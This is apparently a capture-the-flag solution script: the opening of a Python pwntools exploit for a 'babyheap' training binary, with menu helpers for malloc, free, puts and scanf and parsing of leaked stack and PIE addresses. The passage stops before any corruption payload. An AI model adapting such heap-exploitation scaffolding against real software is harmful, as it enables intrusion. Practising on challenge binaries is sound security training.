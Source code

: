 ```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    flat,
    p64,
    process,
    raw_input,
    remote,
)


FILE = "/challenge/babyheap_level10.1"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendlineafter(b"Size: ", str(size).encode())


def free(idx):
    target.sendlineafter(b": ", b"free")
    target.sendlineafter(b"Index: ", str(idx).encode())


def puts(idx):
    target.sendlineafter(b": ", b"puts")
    target.sendlineafter(b"Index: ", str(idx).encode())


def scanf(idx, data):
    target.sendlineafter(b": ", b"scanf")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendline(data)


def quit():
    target.sendlineafter(b": ", b"quit")


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    target.recvuntil(b"allocations is at: ")
    stack = int(target.recvline().strip()[:-1], 16)
    target.recvuntil(b"main is at: ")
    pie_base = int(target.recvline().strip()[:-1], 16) - 0x1AFD

```